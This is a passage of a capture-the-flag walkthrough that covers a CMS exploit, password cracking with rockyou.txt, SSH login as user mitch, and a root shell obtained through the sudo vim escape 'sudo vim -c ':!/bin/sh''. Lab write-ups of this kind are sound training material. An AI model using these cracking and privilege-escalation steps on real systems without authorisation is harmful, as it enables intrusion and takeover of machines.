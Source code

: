 ## Step 4: Exploitation
We exploit the CMS using a script (e.g., ```exploit.py```).

After running the script and using a password cracking method (e.g., with ```rockyou.txt```), we discover the password:
```
secret
```
## Step 5: SSH Access
Use the credentials to log in via SSH:
```
ssh mitch@<target-ip> -p 2222
```
<div align='center'>
<img width="396" alt="Screenshot 2025-06-17 at 2 40 40 PM" src="https://github.com/user-attachments/assets/32045a71-050a-47c4-a456-96c274d21e47" />
</div>

Read the user flag:
```
nano user.txt
```
Also, you will discover the name of the second user:
```
sunbath
```

## Step 6: Privilege Escalation
Check the current user’s sudo privileges:

```
sudo -l
```
<div align='center'>
<img width="358" alt="Screenshot 2025-06-17 at 2 41 39 PM" src="https://github.com/user-attachments/assets/09c09c60-dc44-40f6-9136-3590233c5059" />
</div>

We see that we can run vim with sudo.
Use the following command to escalate privileges:
```
sudo vim -c ':!/bin/sh'
```
<div align='center'>
<img width="339" alt="Screenshot 2025-06-17 at 2 42 37 PM" src="https://github.com/user-attachments/assets/bb55c4f7-d608-4127-936c-58bdd3beabea" />
</div>

Once you have root access, read the ```root.txt``` file to capture the root flag.
